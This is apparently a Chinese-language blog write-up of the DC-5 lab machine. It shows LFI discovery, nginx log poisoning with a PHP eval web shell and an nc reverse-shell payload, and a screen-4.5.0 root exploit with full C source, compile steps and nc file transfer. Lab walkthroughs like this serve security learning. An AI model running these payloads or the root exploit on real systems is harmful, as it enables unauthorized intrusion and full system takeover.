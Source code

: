```yaml
---
layout: post
title: DC-5
subtitle: DC-5
date: 2025-07-14 09:42
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```


扫描IP，发现主机 `192.168.163.131`

![image.png](https://img.ghostliner.top/5EIqko.png)

nmap 扫描端口

![image.png](https://img.ghostliner.top/3eEhul.png)

扫描目录

```shell
dirsearch -u http://192.168.163.131
```

![image.png](https://img.ghostliner.top/NKfI1N.png)

访问 `thankyou.php` 发现页面每次访问年份有变化，猜测有文件包含

![image.png](https://img.ghostliner.top/AkVtmi.png)

wfuzz测试

```shell
wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt -u http://192.168.163.131/thankyou.php?FUZZ=index.php --hw 66
```

![image.png](https://img.ghostliner.top/uJqh3W.png)

查看passwd文件: http://192.168.163.131/thankyou.php?file=file:///etc/passwd
![image.png](https://img.ghostliner.top/kW0SGs.png)

查看日志文件: http://192.168.163.131/thankyou.php?file=file:///var/log/nginx/access.log

日志注入
```
/thankyou.php?file=file://<?php echo qazqazqaz;eval($_REQUEST["cmd"])?>
# or
/thankyou.php?file=file://<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 5555 >/tmp/f')?>
```

蚁剑连接成功
![image.png](https://img.ghostliner.top/hMgCKv.png)

反弹shell成功，find判断是否可以提权，发现 `screen-4.5.0`
![image.png](https://img.ghostliner.top/pgAJ54.png)

搜索相关漏洞，使用 `41154.sh` 进行提权

![image.png](https://img.ghostliner.top/KwqlkT.png)

在目标机上直接执行脚本失败，在kali上编译失败。
![image.png](https://img.ghostliner.top/IPVQN9.png)

在centos7上先编译再在目标机上执行，成功提权。

**过程如下：**

安装gcc

```shell
# 1.备份
mv /etc/yum.repos.d/CentOS-Base.repo /etc/yum.repos.d/CentOS-Base.repo.backup
# 2.下载想要的源
wget -O /etc/yum.repos.d/CentOS-Base.repo http://mirrors.aliyun.com/repo/Centos-7.repo
# 3.清除旧缓存数据，建立新的缓存
yum clean all
yum makecache
# 4.安装gcc
yum install -y gcc
```

创建两个文件

```shell
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
```

```shell
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
```

进行编译

```shell
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/libhax.c
rm -f /tmp/rootshell.c
```

编译成功

![image.png](https://img.ghostliner.top/n3En90.png)

将文件传送到目标机

```shell
# dc-5
cd /tmp
nc -lvp 4545 > libhax.so
# centos
nc 192.168.163.131 4545 <libhax.so
# dc-5
nc -lvp 4545 > rootshell
# centos
nc 192.168.163.131 4545 <rootshell
```

最后在目标机上执行

```shell
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

查看 `/root/thisistheflag.txt`

![image.png](https://img.ghostliner.top/EkFC3Q.png)
